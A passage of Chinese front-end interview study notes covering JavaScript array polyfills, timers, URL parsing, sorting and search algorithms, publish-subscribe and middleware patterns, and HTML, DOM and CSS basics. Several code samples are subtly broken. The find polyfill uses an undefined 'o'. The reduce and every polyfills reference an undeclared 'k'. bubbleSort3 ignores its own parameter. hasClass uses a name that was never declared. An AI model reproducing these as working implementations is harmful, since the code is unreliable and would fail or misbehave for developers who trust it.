if (!((typeof callback === 'Function' || typeof callback === 'function') && this)) {
throw new TypeError();
}
var arr = this;
var len = this.length >>> 0;
var res = new Array(len);
var i = 0, index = 0;
var _this = thisArg || null;
while (index < len) {
if (index in arr) {
if (callback.call(thisArg, arr[index], index, arr)) {
res[i++] = arr[index];
}
}
index++;
}
res.length = i;
return res;
};
Array.prototype.find = function(callback, thisArg) {
if (this == null) {
throw new TypeError('"this" is null or not defined');
}
if (typeof callback !== 'function') {
throw new TypeError('callback must be a function');
}
var arr = Object(this);
var len = o.length >>> 0;
var thisArg = arguments[1];
var index = 0;
while (index < len) {
var value = arr[index];
if (callback.call(thisArg, value, index, arr)) {
return value;
}
index++;
}
return undefined;
}
Array.prototype.reduce = function(callback) {
if (this === null) {
throw new TypeError( 'Array.prototype.reduce ' +
'called on null or undefined' );
}
if (typeof callback !== 'function') {
throw new TypeError( callback +
' is not a function');
}
var arr = Object(this);
var len = arr.length >>> 0;
var index = 0;
var acc;
if (arguments.length >= 2) {
acc = arguments[1];
} else {
while (index < len && !(index in arr)) {
index++;
}
if (index >= len) {
throw new TypeError( 'Reduce of empty array ' +
'with no initial value' );
}
acc = arr[index++];
}
while (index < len) {
if (index in arr) {
acc = callback(acc, arr[k], index, arr);
}
index++;
}
return acc;
}
Array.prototype.some = function(callback) {
if (this == null) {
throw new TypeError('Array.prototype.some called on null or undefined');
}
if (typeof callback !== 'function') {
throw new TypeError();
}
var arr = Object(this);
var len = arr.length >>> 0;
var thisArg = arguments.length >= 2 ? arguments[1] : void 0;
for (var i = 0; i < len; i++) {
if (i in arr && callback.call(thisArg, arr[i], i, arr)) {
return true;
}
}
return false;
};
Array.prototype.every = function(callbackfn, thisArg) {
if (this == null) {
throw new TypeError('this is null or not defined');
}
if (typeof callbackfn !== 'function') {
throw new TypeError();
}
var _this, index = 0;
var arr = Object(this);
var len = arr.length >>> 0;
if (arguments.length > 1) {
_this = thisArg;
}
while (index < len) {
var value;
if (index in arr) {
value = arr[index];
var testResult = callbackfn.call(_this, value, index, arr);
if (!testResult) {
return false;
}
}
k++;
}
return true;
};
定时器
答案
function _setTimeout (callback, wait) {
const timer = setInterval(() => {
clearInterval(timer);
callback();
}, wait);
}
function _setInterval (callback, wait) {
(function t() {
setTimeout(() => {
callback();
t();
}, wait);
})();
}
数组去重
答案
function duplicateRemoval (arr) {
return [...new Set(arr)];
}
function duplicateRemoval (arr) {
return Object.keys(arr.reduce((acc, i) => (acc[i] = i, acc), {}))
}
function duplicateRemoval (arr) {
return arr.reduce((acc, i) => (acc.includes(i) ? acc : [...acc, i]) , [])
}
解析 url params
答案
function urlSearch(href) {
let name, value;
let str = href;
let num = str.indexOf("?");
str = str.substr(num + 1);
let arr = str.split("&");
let json = {};
for (let i = 0; i < arr.length; i++) {
num = arr[i].indexOf("=");
if (num > 0) {
name = arr[i].substring(0, num);
value = arr[i].substr(num + 1);
json[name] = value;
}
}
return json;
}
function parseParam(url) {
const paramsStr = /.+\?(.+)$/.exec(url)[1];
const paramsArr = paramsStr.split('&');
let paramsObj = {};
paramsArr.forEach(param => {
if (/=/.test(param)) {
let [key, val] = param.split('=');
val = decodeURIComponent(val);
val = /^\d+$/.test(val) ? parseFloat(val) : val;
if (paramsObj.hasOwnProperty(key)) {
paramsObj[key] = [].concat(paramsObj[key], val);
} else {
paramsObj[key] = val;
}
} else {
paramsObj[param] = true;
}
})
return paramsObj;
}
function parseParam(url) {
const paramsStr = /.+\?(.+)$/.exec(url)[1]; // 将 ? 后面的字符串取出来
//exec() 方法用于检索字符串中的正则表达式的匹配。
const paramsArr = paramsStr.split('&'); // 将字符串以 & 分割后存到数组中
let paramsObj = {};
// 将 params 存到对象中
paramsArr.forEach(param => {
if (/=/.test(param)) { // 处理有 value 的参数
let [key, val] = param.split('='); // 分割 key 和 value
val = decodeURIComponent(val); // 解码
val = /^\d+$/.test(val) ? parseFloat(val) : val; // 判断是否转为数字
//test() 方法用于检测一个字符串是否匹配某个模式.
if (paramsObj.hasOwnProperty(key)) { // 如果对象有 key，则添加一个值
paramsObj[key] = [].concat(paramsObj[key], val);
//concat() 方法用于连接两个或多个数组。
//该方法不会改变现有的数组，而仅仅会返回被连接数组的一个副本。
} else { // 如果对象没有这个 key，创建 key 并设置值
paramsObj[key] = val;
}
} else { // 处理没有 value 的参数
paramsObj[param] = true;
}
})
return paramsObj;
}
function parseSearch(search) {
let data = new URLSearchParams(search);
let res = {};
for (let i of data) {
res[i[0]] = i[1];
}
return res
}
实现 a == 1 && a == 2 && a == 3 的结果为 true
答案
// 对象定义自定义 toString 或者 valueOf
const a = {
i: 0,
toString: function() {
this.i++
return this.i
}
}
const a = {
i: 0,
valueOf: function() {
this.i++
return this.i
}
};
console.log(a == 1 && a == 2 && a == 3);
// 定义对象 getter
let a = {};
let temp = 0
Object.defineProperty(a, 'i', {
get(val) {
return ++temp
},
set() {
return temp
}
});
a.i == 1 && a.i == 2 && a.i == 3
// Proxy 代理
let a = {
i: 0
};
const currentA = new Proxy(a, {
get: function(obj) {
return ++obj.i
}
});
console.log(currentA.i == 1 && currentA.i == 2 && currentA.i == 3);
洗牌算法
答案
function shuffle(arr) {
const array = arr.slice();
for (let i = (array.length - 1); i > 0; i -= 1) {
const randomIndex = Math.floor(Math.random() * (i + 1));
[array[i], array[randomIndex]] = [array[randomIndex], array[i]];
}
return array;
}
判断字符串中的括号是否是合法闭合的括号
答案
function isClosed(str) {
if (!str) return true;
const array = str.split('');
const stack = [];
const targetsMap = {
'[': 1,
']': -1,
'(': 2,
')': -2,
'{': 3,
'}': -3
}
for (let i = 0; i < array.length; i++) {
if (array[i] === '(' || array[i] === '[' || array[i] === '{') {
stack.push(targetsMap[array[i]]);
} else {
const l = stack.length;
if (targetsMap[array[i]]) {
if (l > 0 && ((stack[l - 1] + targetsMap[array[i]]) === 0)) {
stack.pop();
} else {
stack.push(targetsMap[array[i]]);
}
}
}
}
return stack.length ? false : true;
}
// 简化一下
function isClosed(str) {
if (!str) return true;
const arr = str.split('');
const stack = [];
const map = {
'[': 1,
']': -1,
'(': 2,
')': -2,
'{': 3,
'}': -3,
};
for (let i = 0; i < arr.length; i++) {
let temp = arr[i];
if (map[temp]) {
if ((map[temp] + stack[stack.length - 1]) === 0) {
stack.pop();
} else {
stack.push(map[temp]);
}
}
}
return stack.length ? false : true;
}
isClosed('{}'); // true
isClosed('()[]{}'); // true
isClosed('{()[][{()}][]}'); // true
isClosed('{)'); // false
isClosed('{(])}'); // false
isClosed('{(}[)]'); // false
isClosed('('); // false
实现判断版本号的方法
答案
function compareVersion(v1, v2) {
v1 = v1.split('.')
v2 = v2.split('.')
const len = Math.max(v1.length, v2.length)
while (v1.length < len) {
v1.push('0')
}
while (v2.length < len) {
v2.push('0')
}
for (let i = 0; i < len; i++) {
const num1 = parseInt(v1[i])
const num2 = parseInt(v2[i])
if (num1 > num2) {
return 1
} else if (num1 < num2) {
return -1
}
}
return 0
}
compareVersion('1.11.0', '1.9.9') // 1
实现 promisify
答案
function promisify(fn) {
return function(...arg) {
return new Promise((resolve, reject) => {
fn.apply(null, [...arg, function (err, data) {
if (err) {
return reject(err);
}
resolve(data);
}]);
});
}
}
排序算法
冒泡排序
- 比较相邻的元素。如果第一个比第二个大，就交换它们两个；
- 对每一对相邻元素作同样的工作，从开始第一对到结尾的最后一对，这样在最后的元素应该会是最大的数；
- 针对所有的元素重复以上的步骤，除了最后一个；
- 重复步骤 1~3，直到排序完成。
function bubbleSort(arr) {
var len = arr.length;
for (var i = 0; i < len; i++) {
for (var j = 0; j < len - 1 - i; j++) {
if (arr[j] > arr[j + 1]) {
[arr[j + 1], arr[j]] = [arr[j], arr[j + 1]];
}
}
}
return arr;
}
var arr = [3, 44, 38, 5, 47, 15, 36, 26, 27, 2, 46, 4, 19, 50, 48];
console.log(bubbleSort(arr));
// [2, 3, 4, 5, 15, 19, 26, 27, 36, 38, 44, 46, 47, 48, 50]
设置一标志性变量 pos，用于记录每趟排序中最后一次进行交换的位置。由于 pos 位置之后的记录均已交换到位，故在进行下一趟排序时只要扫描到 pos 位置即可。
function bubbleSort2(arr) {
var i = arr.length - 1;
while ( i > 0) {
var pos = 0;
for (var j = 0; j < i; j++) {
if (arr[j] > arr[j + 1]) {
pos = j;
[arr[j + 1], arr[j]] = [arr[j], arr[j + 1]];
}
}
i = pos;
}
return arr;
}
var arr = [3, 44, 38, 5, 47, 15, 36, 26, 27, 2, 46, 4, 19, 50, 48];
console.log(bubbleSort2(arr));
// [2, 3, 4, 5, 15, 19, 26, 27, 36, 38, 44, 46, 47, 48, 50]
传统冒泡排序中每一趟排序操作只能找到一个最大值或最小值，我们考虑利用在每趟排序中进行正向和反向两遍冒泡的方法一次可以得到两个最终值(最大者和最小者)，从而使排序趟数几乎减少了一半。
function bubbleSort3(arr3) {
var low = 0;
var high = arr.length - 1;
var tmp, j;
while (low < high) {
for (j = low; j < high; ++j) {
if (arr[j]> arr[j + 1]) {
[arr[j + 1], arr[j]] = [arr[j], arr[j + 1]];
}
}
--high;
for (j = high; j > low; --j) {
if (arr[j] < arr[j - 1]) {
[arr[j - 1], arr[j]] = [arr[j], arr[j - 1]];
}
}
++low;
}
return arr3;
}
var arr = [3, 44, 38, 5, 47, 15, 36, 26, 27, 2, 46, 4, 19, 50, 48];
console.log(bubbleSort3(arr));
// [2, 3, 4, 5, 15, 19, 26, 27, 36, 38, 44, 46, 47, 48, 50]
- 最佳情况：T(n) = O(n)
- 最差情况：T(n) = O(n2)
- 平均情况：T(n) = O(n2)
快速排序
- 先找到一个基准点（一般指数组的中部），然后数组被该基准点分为两部分，依次与该基准点数据比较，如果比它小，放左边；反之，放右边
- 左右分别用一个空数组去存储比较后的数据
- 最后递归执行上述操作，直到数组长度 <= 1
function quickSort(arr) {
if (arr.length <= 1) {
return arr;
}
const middleIndex = Math.floor(arr.length / 2);
const temp = arr.splice(middleIndex, 1);
const middle = temp[0];
const left = [];
const right = [];
for (let i = 0; i < arr.length; i++) {
if (arr[i] < middle) {
left.push(arr[i]);
} else {
right.push(arr[i]);
}
}
return quickSort(left).concat(middle, quickSort(right));
};
const array2 = [5, 4, 3, 2, 1];
console.log(quickSort(array2));
- 最佳情况：T(n) = O(n log n)
- 最差情况：T(n) = O(n2)
- 平均情况：T(n) = O(n log n)
归并排序
先把数组从中间分成前后两部分，然后对前后两部分分别排序，再将排好序的两部分合并在一起，这样整个数组就都有序了。
function mergeSort (arr) {
const len = arr.length;
if (len < 2) {
return arr;
}
const middle = Math.floor(len / 2),
left = arr.slice(0, middle),
right = arr.slice(middle);
return merge(mergeSort(left), mergeSort(right));
}
function merge (left, right) {
const result = [];
while (left.length && right.length) {
if (left[0] <= right[0]) {
result.push(left.shift());
} else {
result.push(right.shift());
}
}
while (left.length) {
result.push(left.shift());
}
while (right.length) {
result.push(right.shift());
}
return result;
}
const array2 = [5, 4, 3, 2, 1];
console.log(mergeSort(array2));
- 最佳情况：T(n) = O(n log n)
- 最差情况：T(n) = O(n log n)
- 平均情况：T(n) = O(n log n)
查找算法
顺序查找
sequentialSearch(arr, item) {
for (let i = 0; i < arr.length; i++) {
if (item === arr[i]) {
return i;
}
}
return -1;
}
二分查找
- 先将数据排序
- 获取中间值，如果中间值就是要找的直接返回。如果目标比中间值小就在中间值左边查找，否则右边
- 递归第二步
binarySearch(arr, item) {
quickSort(arr);
let min = 0,
max = arr.length - 1,
mid,
el;
while(min <= max) {
mid = Math.floor((min + max) / 2)
el = arr[mid]
if (el < item) {
min = mid + 1
} else if (el > item) {
max = mid -1
} else {
return mid
}
}
return -1
}
发布订阅模式
概念
-
发布订阅模式又叫观察者模式，它定义对象间的一种一对多的依赖关系，当一个对象的状态发生改变时，所有依赖于它的对象都将得到通知。
-
发布订阅模式可以广泛应用于异步编程中，这是一种替代传递回调函数的方案。比如，我们可以订阅 ajax 请求的 error、succ 等事件。 或者如果想在动画的每一帧完成之后做一些事情，那我们可以订阅一个事件，然后在动画的每一帧完成之后发布这个事件。在异步编程中使用发布订阅模式，我们就无需过多关注对象在异步运行期间的内部状态，而只需要订阅感兴趣的事件发生点。
-
第二点说明发布订阅模式可以取代对象之间硬编码的通知机制，一个对象不用再显式地调用另外一个对象的某个接口。发布订阅模式让两个对象松耦合地联系在一起，虽然不太清楚彼此的细节，但这不影响它们之间相互通信。当有新的订阅者出现时，发布者的代码不需要任何修改；同样发布者需要改变时，也不会影响到之前的订阅者。只要之前约定的事件名没有变化，就可以自由地改变它们。
-
使用 addEventListener 为元素添加事件监听函数就是典型的订阅发布模式
实现
class Subject {
observers = []
addObserver(observer) {
this.observers.push(observer)
}
removeObserver(observer) {
let index = this.observers.indexOf(observer)
if (index > -1) {
this.observers.splice(index, 1)
}
}
notify() {
this.observers.forEach(observer => {
observer.update()
})
}
}
class Observer{
constructor(fn) {
this.update = fn;
}
subscribeTo(subject) {
subject.addObserver(this)
}
}
// 测试代码
let subject = new Subject()
let observer = new Observer(function() {
console.log('update 调用了')
})
observer.subscribeTo(subject)
subject.notify()
实现 eventBus
class EventBus {
map = {}
on(type, handler) {
this.map[type] = (this.map[type] || []).concat(handler)
}
once(type, handler) {
const _this = this
function cb() {
_this.off(type, cb)
handler.apply(_this, arguments);
}
this.on(type, cb)
}
fire(type, data) {
this.map[type] && this.map[type].forEach(handler => handler(data))
}
off(type, handler) {
if(this.map[type]) {
if(!handler) {
delete this.map[type]
} else {
let index = this.map[type].indexOf(handler)
if (index >= 0) {
this.map[type].splice(index, 1)
}
}
}
}
}
const eventBus = new EventBus()
eventBus.on('click:btn', data => {
console.log(data)
})
eventBus.fire('click:btn', {a: 1, b: 2})
eventBus.off('click:btn')
eventBus.fire('click:btn', {a: 1, b: 2})
策略模式
策略模式就是定义一系列的算法，把它们一个个封装起来，并且使它们可以相互替换。
var strategies = {
"S": function(salary){
return salary * 4;
},
"A": function(salary){
return salary * 3;
},
"B": function(salary){
return salary * 2;
}
};
var calculateBonus = function(level, salary){
return strategies[level](salary);
};
console.log(calculateBonus('S', 20000)); // 输出：80000
console.log(calculateBonus('A', 10000)); // 输出：30000
责任链模式
职责链模式的定义是：使多个对象都有机会处理请求，从而避免请求的发送者和接收者之间的耦合关系，将这些对象连成一条链，并沿着这条链传递该请求，直到有一个对象处理它为止。
class Middleware {
constructor() {
this.middlewares = [];
}
use(fn) {
if (typeof fn !== 'function') {
throw new Error('Middleware must be function, but get ' + typeof fn);
}
this.middlewares.push(fn);
return this;
}
compose() {
const middlewares = this.middlewares;
function dispatch(index) {
const middleware = middlewares[index];
if (!middleware) {return;}
try {
const ctx = {};
const result = middleware(ctx, dispatch.bind(null, index + 1));
return Promise.resolve(result);
} catch(err) {
return Promise.reject(err);
}
}
return dispatch(0);
}
}
const middleware = new Middleware();
middleware.use(async (ctx, next) => {
console.log(1);
await next();
console.log(2);
});
middleware.use(async (ctx, next) => {
console.log(3);
await next();
console.log(4);
});
middleware.compose(); // 1 3 4 2
src 和 href
-
src 属性用于替换元素，也就是说这个元素会被 src 指向的资源替换掉；href 用于在引用的文档和外部资源之间建立联系。
-
link a 标签使用 href。video audio script img iframe embed 标签使用 src。
-
浏览器遇到 script 的时候，会暂停页面的解析，先根据 src 去下载这个资源，下载完成后用资源将元素替换，然后再继续解析页面。注意，script 标签的行为会受到 defer async 还有 type="module" 的影响。
-
link 的 href 引用 css 文件的时候就不会阻塞页面的解析。
property 和 attribute
概念
html 元素的属性有两种，property 和 attribute，它们有什么区别呢？
<input type="text" value="aaa">
上面这个输入框的 html 代码上定义的两个属性 type 和 value 就是 attribute。
- property 是浏览器根据 html 生成的 dom 节点的属性。
- attribute 是在 html 代码中在标签上定义的属性。它会被加入到 dom 节点的 attributes 属性中。
- element.getAttribute(name) 获取属性
- element.setAttribute(name, value) 设置属性
- element.removeAttribute(name) 删除属性
- element.hasAttribute(name) 是否包含有指定的属性
差别
- attribute 对象包含标签里定义的所有属性，property 只包含 html 标准的属性，不包含自定义属性
- attribute 里的属性的值是 html 标签上原始的值，除非使用 setAttribute() 方法更改，不会根据用户输入而改变（eg: input 标签）。property 在页面初始化时会映射并创建 Attribute 对象里的标准属性，从而节点对象能以对象的访问方式获取标准属性。在用户输入内容修改了原始值后，property 里对应的属性会随之变化。即，查看原始值使用 attribute，查看最新值使用 property。（input 的 value 值也可以通过 input.defaultValue 查看原始值）
- property 与 attribute 的某些属性名称是完全一样的，例如 ref, id。某些名称有些轻微差别，例如 attribute 里的 for、class 属性映射出来对应 property 里的 htmlFor、className.某些属性名称一样，但是属性值会有限制或者修改，不会完全一样，相关的属性有 src, href, disabled, multiple 等。
- 由于 property 不能读取自定义属性，如果标签在开始的时候对标准属性定义了非标准范围内的值，property 会默认选择一个标准值代替，导致与 attribute 里的属性不完全相等。
<input id="input" type="foo"></input> // input.type === 'text' // input.getAttribute('type') === 'foo'
script 标签
<script src="./test.js"></script>
<script src="./test.js" defer></script>
<script src="./test.js" async></script>
<script src="./test.js" type="module"></script>
<script> 元素用于嵌入或引用可执行脚本。它有几个特殊的属性能够影响浏览器解析页面的流程。
-
默认情况下，浏览器是同步加载 JavaScript 脚本，即渲染引擎遇到
<script>标签就会停下来，等到执行完脚本，再继续向下渲染。如果是外部脚本，还必须加入脚本下载的时间。如果脚本体积很大，下载和执行的时间就会很长，因此造成浏览器堵塞，用户会感觉到浏览器“卡死”了，没有任何响应。 -
如果在 script 标签上添加了 async 和 defer 属性，script 引用的外部脚本就会异步下载。它俩的区别是，defer 是等到整个页面 dom 结构生成完了，其他脚本执行完了，再执行；而 async 是一旦脚本下载完毕，页面会中断渲染，立即执行脚本，脚本执行完了再接着渲染页面。一句话，defer 是渲染完再执行，async 是下载完就执行。如果有多个 defer 脚本，会按照它们在页面出现的顺序加载，而多个 async 脚本是不能保证加载顺序的。
-
带有 type="module" 的
<script>，都是异步加载，即等到整个页面渲染完，再执行模块脚本，相当于和 defer 一样的效果。如果网页有多个<script type="module">，它们会按照在页面出现的顺序依次执行。<script>标签的 async 属性也可以打开，打开后和 async 效果一样。

link 标签
link 标签主要用于将当前网页与相关的外部资源联系起来，最常用于加载样式表。
<!DOCTYPE html>
<html lang="en">
<head>
<title>css阻塞</title>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<style>
h1 {
color: red !important
}
</style>
<script>
function h () {
console.log(document.querySelectorAll('h1'))
}
setTimeout(h, 0)
</script>
<link href="https://cdn.bootcss.com/bootstrap/4.0.0-alpha.6/css/bootstrap.css" rel="stylesheet">
</head>
<body>
<h1>这是红色的</h1>
</body>
</html>
在 chrome 浏览器开发者工具中设置 throttling （节流，模拟弱网）后，可以发现，link 引入的外部 css 还没有被下载完成，js 中已经打印出 h1 标签了，但是页面上并没有渲染出内容，说明： css 加载不会阻塞 DOM 树的解析，css 加载会阻塞DOM 树的渲染。
<!DOCTYPE html>
<html lang="en">
<head>
<title>css阻塞</title>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<script>
console.log('before css')
var startDate = new Date()
</script>
<link href="https://cdn.bootcss.com/bootstrap/4.0.0-alpha.6/css/bootstrap.css" rel="stylesheet">
</head>
<body>
<h1>这是红色的</h1>
<script>
var endDate = new Date()
console.log('after css')
console.log('经过了' + (endDate -startDate) + 'ms')
</script>
</body>
</html>
再次在弱网下运行上面的例子，发现在 link 后面的 js 代码，应该要在 css 加载完成后才会运行。说明：css 加载会阻塞后面 js 语句的执行。
总结：
- css 加载不会阻塞 DOM 树的解析
- css 加载会阻塞 DOM 树的渲染
- css 加载会阻塞后面 js 语句的执行
补充：
window.addEventListener('load', (event) => {
console.log('load')
});
document.addEventListener('DOMContentLoaded', (event) => {
console.log('DOMContentLoaded')
});
- load 事件会等待页面的所有资源都加载完成才会触发，这些资源包括 css、js、图片视频等。
- 当页面只存在 css，或者 js 都在 css 前面，那么 DomContentLoaded 不需要等到 css 加载完毕。
- 当页面里同时存在 css 和 js，并且 js 在 css 后面的时候，DomContentLoaded 必须等到 css 和 js 都加载完毕才触发。
<!DOCTYPE html>
<html lang="en">
<head>
<title>css阻塞</title>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<script>
document.addEventListener('DOMContentLoaded', function() {
console.log('DOMContentLoaded');
})
</script>
<link href="https://cdn.bootcss.com/bootstrap/4.0.0-alpha.6/css/bootstrap.css" rel="stylesheet">
</head>
<body>
</body>
</html>
上面的测试代码在 link 的 css 文件还没下载成功时，就已经触发 DOMContentLoaded 了。
<!DOCTYPE html>
<html lang="en">
<head>
<title>css阻塞</title>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<script>
document.addEventListener('DOMContentLoaded', function() {
console.log('DOMContentLoaded');
})
</script>
<link href="https://cdn.bootcss.com/bootstrap/4.0.0-alpha.6/css/bootstrap.css" rel="stylesheet">
<script>
console.log('到我了没');
</script>
</head>
<body>
</body>
</html>
而这里例子中，link 加载 css 下载完了之后，'到我了没' 被打印，然后才触发 DOMContentLoaded。以上例子说明 DOMContentLoaded 事件会等待 DOM 和 js 都加载执行完毕才会触发。
form 标签
- 表单 action 属性是提交请求的地址。
- method 属性指定 http 请求的类型，如 'get' 或 'post'
- enctype 属性指定提交数据的 MIME 类型。默认值是 application/x-www-form-urlencoded。如果表单中有文件上传，则需要设置为 multipart/form-data。还有一个值是 text/plain ，纯文本。
- application/x-www-form-urlencoded 格式的数据将使用 name1=value1&name2=value2 这种形式，如果字符是合法字符从和保留字符意外的字符，则会转义成百分号加十六进制 UTF-8 编码的形式。
- multipart/form-data 格式的数据不使用 & 分隔不同参数，而使用 boundary （分界线）来分隔。
- 表单的提交后会有默认行为，会跳转到 action 的页面。此时就可以在页面里添加一个隐藏的 iframe 标签，并设置 name 值，然后 form 表单设置 target 属性为 iframe 的 name。这样表单提交后就不再跳转页面，并且响应的数据将返回至 iframe 中。
常用表单元素
- input type="text" type="password"
- input type="checkbox" type="radio"
- input type="file"
- input type="hidden"
- input type="submit"
- select option
表单元素属性
- accept
在 input type="file" 上使用。用于规定文件上传控件中期望的文件类型。例如：accept="image/png, image/bmp, image/gif, image/webp, image/jpeg, image/jpg'
- multiple
file 上使用。是否可以提交多个文件
- autocomplete
所有表单元素都可以使用。用于自动填充。值有很多种，一般常用值有两个，on 和 off
- checked
radio 和 checkbox 使用。多选按钮和单选按钮是否初始状态是选中的。
- name
表单控件的名字，会作为提交请求的参数的名字
- maxlength minlength size
在 text 和 password 上使用，maxlength 代表最多可以输入的字符个数，minlength 代表最少输入的字符个数。size 代表输入字符的长度。
size 设置后不会有任何效果。maxlength 设置后最多就只能输入 maxlength 个字符了，minlength 设置后如果不输入任何字符，空字符串可以提交，但是如果输入了字符但是小于 minlength 长度，则提交被拦截。
- placeholder
text 使用，提示文字
- required
提交表单之前必须为该元素填充值，如果不填充，则提交被拦截
- readonly disabled
disabled 代表此表单项不可用，提交时此表单项的值不会被提交（hidden 会忽略此属性）。readonly 用户无法修改此表单项的值，但是值会被提交。
- value
表单项的初始值
preload
link 标签可以设置 preload 和 prefetch 属性。w3c文档
<link rel="preload" href="/path/to/style.css" as="style">
<script>
const link = document.createElement('link');
link.rel = 'preload';
link.as = 'style';
link.href = '/path/to/style.css';
document.head.appendChild(link);
</script>
还可以通过 http 响应头来进行
Link: <https://example.com/other/styles.css>; rel=preload; as=style
- preload 将提升资源加载的优先级，并且资源的获取不会阻塞页面渲染和 load 事件，被加载的资源会等到合适的时间才会运行
- prefetch 的资源优先级低，是可选的，所以一般设置的是之后可能会用到的资源，比如第二屏的资源，或之后打开某个页面的资源；而 preload 优先级高，一般设置的是第一次加载页面就要立马用到的资源。
获取元素
document.getElementById
var element = document.getElementById(id);
- 如果获取不到对应 id 的元素，则返回 null
- 如果有 id 重复的元素，则获取代码中出现的第一个
- getElementById 只能作为 document 的属性使用
getElementsByTagName
var elements = document.getElementsByTagName(name);
var elements = element.getElementsByTagName(tagName);
elements.length // html 集合的长度
elements[0] // 获取 html 集合中第 0 个元素
elements.item(0) // 同上
- 返回一个包括所有给定标签名称的元素的 HTML 集合（HTMLCollection）。HTMLCollection 是即时更新的；当其所包含的文档结构发生改变时，它会自动更新
- 可以在 document 和任意元素上调用
getElementsByClassName
var elements = document.getElementsByClassName(name);
var elements = element.getElementsByClassName(name);
document.getElementsByClassName('red test'); // 获取所有 class 同时包括 'red' 和 'test' 的元素
- 返回一个包含了所有指定类名的子元素的 HTML 集合（HTMLCollection）。HTMLCollection 是即时更新的
- 可以在 document 和任意元素上调用
querySelector
var element = document.querySelector(selectors);
var element = element.querySelector(selectors);
var el = document.querySelector("div.user-panel.main input[name='login']");
- 返回与指定选择器或选择器组匹配的第一个 html 元素。 如果找不到匹配项，则返回 null
- 可以在 document 和任意元素上调用
- 匹配是使用深度优先先序遍历，从文档标记中的第一个元素开始，并按子节点的顺序依次遍历
- 当在指定元素上调用时，选择器首先会应用到整个文档，而不是这个指定元素，来创建一个可能有匹配元素的初始列表。然后从结果元素中检查它们是否是指定元素的后代元素。第一个匹配的元素将会被 querySelector 方法返回。
querySelectorAll
var elementList = document.querySelectorAll(selectors);
var elementList = container.querySelectorAll(selectors);
elementList.length // nodeList 长度
elementList[0] // 获取 nodeList 第 0 个元素
elementList.item(0) // 同上
elementList.forEach(function (item, index, nodeList) => {});
- 返回与指定的选择器组匹配的文档中的元素列表 (使用深度优先的先序遍历文档的节点)
- 返回的是静态 NodeList，不会随着文档变化而变化，不是即时更新的。
获取元素尺寸
offsetWidth offsetHeight
element.offsetWidth
element.offsetHeight
- 只读属性，返回一个元素的布局宽度和布局高度。
- 默认返回 width/height + padding + border，如果是 border-box 返回 width/height
- 如果有滚动条，会包含滚动条的宽度或高度。（在 chrome 92 版本下测试，滚动条的宽度或高度被自动加入到元素的宽高中）
clientWidth clientHeight
element.clientWidth
element.clientHeight
- 只读属性，返回元素内部宽度和高度
- 返回 width/height + padding，不包含 border，不包含滚动条
- 如果是 border-box，会用 width/height - border - 滚动条
scrollWidth scrollHeight
element.scrollWidth
element.scrollHeight
- 当元素存在滚动条时，scrollWidth 和 scrollHeight 能获取到元素不使用滚动条时其所有内容的宽高，包含 width/height + padding，不包含 border，不包含滚动条。和 clientWidth clientHeight 计算方式相同
- 滚动条不需要滚动的时候，也就是没有因为滚动条而隐藏的内容时，scrollWidth scrollHeight 等于 clientWidth clientHeight
scrollTop scrollLeft
- 获取和设置含有滚动条的元素的垂直或者水平滚动距离
offsetTop offsetLeft
- HTMLElement.offsetParent 是一个只读属性，返回一个指向最近的（指包含层级上的最近）包含该元素的定位元素或者最近的 table,td,th,body元素。当元素的 style.display 设置为 "none" 时，offsetParent 返回 null。
- offsetTop offsetLeft 就是相对于 offsetParent 计算的。一个是相对于 offsetParent 的上方的偏移量，一个是相对于 offsetParent 的左边的偏移量
clientTop clientLeft
- 一个元素上边框和左边框的宽度，即 border-top-width 和 border-left-width，注意这两个值还包含了对应方向上的滚动条的宽度。
getBoundingClientRect
element.getBoundingClientRect()
- getBoundingClientRect 返回的 width/height 和 offsetHeight offsetWidth 一样
- 除了返回 width/height，还返回了 left, top, right, bottom, x, y，这些值基于视口左上角计算。注意这里返回的 right 和 bottom 是元素右边和下边和视口 left 和 top 的距离，和给元素设置的那四个定位属性含义不一样。
处理 class
Element.className
let cName = element.className;
element.className = cName;
- 获取或设置指定元素的 class 属性的值
Element.classList
const elementClasses = element.classList;
elementClasses.length // class 列表的长度
elementClasses.add('test') // 添加新 class
elementClasses.remove('test') // 删除 class
elementClasses.add('test', 'test1') // 添加多个 class
elementClasses.remove('test', 'test1') // 删除多个 class
elementClasses.toggle('test') // 有则删除，无则添加
elementClasses.replace('foo', 'bar') // foo 替换成 bar，相当于删除 foo 添加 bar
- 只读属性，返回一个元素的class 属性的实时 DOMTokenList 集合。
封装方法
function addClass (el, cls) {
if (!cls || !(cls = cls.trim())) {
return
}
if (el.classList) {
if (cls.indexOf(' ') > -1) {
cls.split(/\s+/).forEach(c => el.classList.add(c))
} else {
el.classList.add(cls)
}
} else {
const cur = ` ${el.getAttribute('class') || ''} `
if (cur.indexOf(' ' + cls + ' ') < 0) {
el.setAttribute('class', (cur + cls).trim())
}
}
}
function removeClass (el, cls) {
if (!cls || !(cls = cls.trim())) {
return
}
if (el.classList) {
if (cls.indexOf(' ') > -1) {
cls.split(/\s+/).forEach(c => el.classList.remove(c))
} else {
el.classList.remove(cls)
}
if (!el.classList.length) {
el.removeAttribute('class')
}
} else {
let cur = ` ${el.getAttribute('class') || ''} `
const tar = ' ' + cls + ' '
while (cur.indexOf(tar) >= 0) {
cur = cur.replace(tar, ' ')
}
cur = cur.trim()
if (cur) {
el.setAttribute('class', cur)
} else {
el.removeAttribute('class')
}
}
}
function hasClass (el, cla) {
if (!cls || !(cls = cls.trim())) {
return
}
let cur = ` ${el.getAttribute('class')} `
const tar = ' ' + cls + ' '
if (cur.indexOf(tar) >= 0) {
return true;
}
return false;
}
@rule
CSS 的顶层样式表由两种规则组成的规则列表构成，一种被称为 at-rule，也就是 at 规则，另一种是 qualified rule，也就是普通规则。
@charset
@charset 用于提示 CSS 文件使用的字符编码方式，它如果被使用，必须出现在最前面。这个规则只在给出语法解析阶段前使用，并不影响页面上的展示效果。
@charset "utf-8";
@import
@import 用于引入一个 CSS 文件，除了 @charset 规则不会被引入，@import 可以引入另一个文件的全部内容。
@import "mystyle.css";
@import url("mystyle.css");
@media
基于一个或多个媒体查询的结果来应用样式表的一部分。
@media all and (min-width: 1280px) {
/* 宽度大于1280干嘛干嘛嘞... */
}
@media (-webkit-min-device-pixel-ratio: 1.5), (min-resolution: 2dppx) {
/* Retina屏幕干嘛干嘛嘞... */
}
@media print {
